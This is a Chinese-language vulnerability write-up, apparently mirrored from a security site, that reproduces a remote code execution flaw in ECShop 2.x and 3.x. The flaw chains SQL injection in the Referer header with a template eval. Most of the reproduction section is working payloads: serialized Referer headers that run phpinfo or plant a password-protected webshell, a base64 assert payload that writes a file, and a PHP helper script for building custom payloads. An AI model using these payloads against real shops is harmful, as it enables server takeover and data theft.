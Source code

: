 # ECShop <= 2.7.x 代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2899](https://www.zhihuifly.com/t/topic/2899)

# ECShop <= 2.7.x 代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

ECShop（2.x、3.0.x、3.6.x）

## 三、复现过程

### 漏洞分析

![image](img/315351a42101158884d8e475026cd7a6.png)

继续看fetch函数

![image](img/15222025129f7fe93b99c1b5b34e71c0.png)

追踪_eval函数

![image](img/bda32e1de990340a32bcabf84429ed4f.png)

$position_style变量来源于数据库中的查询结构

![image](img/833281010a69127b5cd34b1d88811da2.png)

然后我们继续构造SQL注入，因为这段sql操作 order by部分换行了截断不了 所以需要在id处构造注释来配合num进行union查询

![image](img/f221e4066f4008b5692267e409b1cb74.png)

payload

```
SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop27`.`ecs_ad` AS a LEFT JOIN `ecshop27`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1535678679' AND end_time >= '1535678679' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,2,3,4,5,6,7,8,9,10-- - 
```

函数中有一个判断

![image](img/0cf87b7a46edfe6e94127aef1db5a282.png)

我们 id传入’/*

num传入*/ union select 1,0x272f2a,3,4,5,6,7,8,9,10– -就能绕过了

![image](img/566268a3990dc9672fce637c26bd0809.png)

var_dump一下

![image](img/3d4ca5bec9d0c3a524a90e295d3c7c00.png)

![image](img/17bce7fc7001c17d55c85ebf25800af4.png)

再看fetch函数,传入的参数被fetch_str函数处理了

![image](img/a900184e2f2f7f715035f1a952feebee.png)

追踪fetch_str函数，这里的字符串处理流程比较复杂

![image](img/9bd3ff6fce74248001895cc898d07721.png)

```
return preg_replace("/{([^\}\{\n]*)}/e", "\$this->select('\\1');", $source); 
```

这一行意思是比如$source是xxxx{$asd}xxx,那么经过这行代码处理后就是返回this->select(‘$asd’)的结果

看看select函数

![image](img/387ba5e94b7fa8b2b80f0a270d9fde82.png)

第一个字符为$时进入$this->get_val函数

![image](img/af9e246b62a4b343fd6037300336c75f.png)

我们$val没有.$又进入make_var函数

![image](img/c4e46ca5bc7f4e0d7c3a1969a5b592fd.png)

最后这里引入单引号从变量中逃逸

![image](img/be2f84284e3e7df488cd3ca731109938.png)

我们要闭合_var所以最终payload是

```
{$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEudHh0JywnZ2V0c2hlbGwnKQ=='));//}xxx 
```

会在网站跟目录生成1.txt 里面内容是getshell

![image](img/751ffc79757ae2746d96208ab697d222.png)

### 2.x

phpinfo():

```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca 
```

webshell:

```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";} 
```

会在网站根目录生成`1.php`，密码：`1337`

### 3.x

phpinfo():

```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a 
```

webshell:

```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a 
```

会在网站根目录生成`1.php`，密码：`1337`

### 小脚本

下面给出一个序列化的php脚本（第9个位置就是你想要的）：

```
<?php
$arr=array('num'=>'*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4575634768774A79776E50443977614841675A585A686243676B58314250553152624F546C644B543867506963702729293B2F2F7D787878,10-- -','id'=>'\'/*');
echo serialize($arr);
?> 
```

## 参考链接

> https://cloud.tencent.com/developer/article/1333449